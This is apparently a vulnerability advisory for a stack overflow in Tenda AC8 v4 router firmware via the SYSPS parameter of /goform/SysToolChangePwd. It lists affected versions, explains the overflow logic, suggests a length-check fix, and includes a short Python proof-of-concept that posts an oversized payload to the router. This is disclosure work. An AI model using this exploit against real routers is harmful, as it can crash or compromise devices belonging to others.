 ## Affected Version
* Tenda AC8 v4 US_AC8V4.0si_V16.03.34.06_cn
* Tenda AC8 v4 US_AC8V4.0si_V16.03.34.09_cn

## Vulnerability Description
Tenda AC8 v4 US_AC8V4.0si_V16.03.34.06_cn and Tenda AC8 v4 US_AC8V4.0si_V16.03.34.09_cn was discovered to contain a stack overflow via parameter SYSPS at url **/goform/SysToolChangePwd**.Through this stack overflow and a carefully constructed ROP chain, RCE can be achieved.

## Vulnerability Details
The premise of the attack is to know the value of sys.userpass or to crack the value of sys.userpass

make the values ​​of v3 and v6 are the same, the values ​​of v4 and v5 are the same, and the values ​​of v3 and v4 are different. **In this way, the function SetValue("sys.userpass", v4); will be called to make the value of sys.userpass a very long string. When the page is visited again, GetValue("sys.userpass", v6); will cause a stack overflow through v6.**
![alt text](image.png)

* exp

```python
import sys
import requests

payload = b'A'*0x200

#you should know the value of sys.userpass in advance, or blast it out
userpass="userpass"
url = f"http://192.168.50.100/goform/SysToolChangePwd"
data = {
    "SYSOPS": userpass,
    "SYSPS": payload,
    "SYSPS2": payload
}
requests.post(url=url, data=data)
requests.post(url=url, data=data)

```

## Any suggested solutions to fix
check password length before saving
